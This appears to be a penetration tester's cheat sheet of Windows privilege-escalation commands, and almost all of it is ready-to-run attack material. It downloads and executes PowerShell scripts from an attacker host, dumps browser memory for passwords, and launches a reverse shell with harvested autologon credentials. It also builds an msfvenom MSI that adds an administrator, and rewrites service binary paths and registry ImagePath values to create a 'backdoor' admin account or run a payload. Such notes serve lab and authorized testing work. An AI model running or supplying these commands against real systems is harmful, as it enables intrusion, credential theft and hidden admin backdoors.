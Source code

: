 # Privesc Openings

## Windows Exploiter Suggester

```bash
# https://github.com/bitsadmin/wesng

# 1. Copy and paste into system.txt in kali
Systeminfo	

# 2. Update windows exploit suggester. Will generate a .xls file 
python windows-exploit-suggester.py --update	

# 3. Start suggesting an exploit
python windows-exploit-suggester.py --database <generated xls> --systeminfo system.txt	

```

## Sherlock

### Find All Vulns

```c
# find-allvulns 1
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.32/Sherlock.ps1')	
find-allvulns

# find-allvulns 2
powershell.exe -exec bypass -Command "& {Import-Module .\Sherlock.ps1; find-allvulns}"	


```

### PowerUp Invoke-AllChecks

```c
# Start powershell
powershell.exe -exec bypass	

# Download powerup
(New-Object Net.WebClient).DownloadFile('http://10.10.14.32/PowerUp.ps1','C:\Users\Destination\Folder\PowerUp.ps1')	

# Import script
Import-Module .\PowerUp.ps1	

# Start checks
Invoke-AllChecks	
```

#### Alternatively

```c
# Download
powershell (new-object net.webclient).downloadfile('http://10.10.14.32/PowerUp.ps1','C:\Users\tolis\Videos\PowerUp.ps1')

# Import Module
powershell Import-Module .\PowerUp.ps1

# start Checks
Powershell Invoke-AllChecks

# oneliner to start checks
powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"
```

## DLL Hijacking \(PowerUp\)

```c
# With powershell/Powerup
Find-ProcessDLLHijack
Find-PathDLLHijack
Write-HijackDll 

```

## Dump Process

Dump process \(eg. Browser\) to find credentials. Transfer to kali and 'Strings' grep for login or passwords

```bash
# powershell 
Get-Process firefox

# Kali
.\procdump64.exe -accepteula -ma <PID> <DumpName.dmp>

Strings <DumpName.dmp> | grep login
Strings <DumpName.dmp> | grep password
```

## Using Token and AutoLogon creds

PowerUp Invoke-AllCheck should find plaintext pass. Create privilege object to run reverse shell.

```c
# With powershell/Powerup
Get-RegistryAutoLogon

#Create credential object
$SecPass = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('administrator',$SecPass)

# Call reverse shell using credentials
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.32/HackedAgain.ps1')" -Credential $cred
```

## "AlwaysInstallElevated" privesc

Always Install Elevated to create privesc user after installation.

```c
# for HKCU registry
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# or HKLM registry
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# With powershell/PowerUp)
Import-Module Privesc
Get-RegistryAlwaysInstallElevated


# Create msfvenom setup file
msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f msi-nouac -o setup.msi

#Run in victim machine
msiexec /quiet /qn /i setup.msi
```

## ICALCS 

Look for Folder permissions for \(W\) permissions. Overwrite with binary payload. For WinXP and Below: use cacls

```c
icacls "C:\Program Files (x86)\Program Folder" 
```

## Unquoted Service Paths

Privesc by uploading binary payload in service path to be executed eg. By service start/stop or reboot.   
How? Suppose we found: `C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe`If you look at the registry entry for this service with Regedit you can see the ImagePath value is: `C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe` 

To be prevent it being exploited, the path should have been:  `C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe` When Windows attempts to run this service, it will look at the following paths in order and will run the first EXE that it will find in sequence, hitting our exploit payload.

```text
C:\Program.exe
C:\Program Files.exe
C:\Program Files(x86)\Program Folder\A.exe
```

### To discover unquoted service path

```c
# With WMIC
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """ 

# With powershell/PowerUp
Get-ServiceUnquoted  
```

## Writable Path \(accesschk.exe &gt; upnphost\)

\(1\) Accesschk for any writable path  
\(2\) sc qc to query   
\(3\) method1: adding backdoor user to admin group  
\(4\) method2: adding binary payload 

```c
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -qdws "Authenticated Users" C:\Windows\ /accepteula
accesschk.exe -qdws Users C:\Windows\ /accepteula

# Or 

accesschk.exe -wuvc daclsvc /accepteula
```

![](../.gitbook/assets/image%20%2819%29.png)

### Querying Service 

```c
# With powershell/PowerUp
Get-ModifiableServiceFile
Get-ModifiableService
Get-ServiceDetail

# Querying service
sc qc <vuln-service>
```

### Method 1: Adding backdoor user to admin group

```c
sc qc <vuln-service>
sc config <vuln-service> binpath= "net user backdoor backdoor123 /add" 
sc stop <vuln-service>
sc start <vuln-service>

sc config <vuln-service> binpath= "net localgroup Administrators backdoor /add" 
sc stop <vuln-service>
sc start <vuln-service>
```

### Method 2: Adding binary payload

```c
sc config upnphost binpath= "C:\Inetpub\ftproot\shell.exe"sc config upnphost obj= ".\LocalSystem" password= ""sc config upnphost depend= ""
sc stop upnphost

# run reverse shell listener

net start upnphost
```

## Services Registry

```c
# In Powershell
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl

# Cmd
powershell "Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl"

```

![](../.gitbook/assets/image%20%2829%29.png)

Create exploit eg. Msfvenom exploit.exe and place in writable folder like 'temp'

```c
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\exploit.exe /f
```

Run service `sc start regsvc`



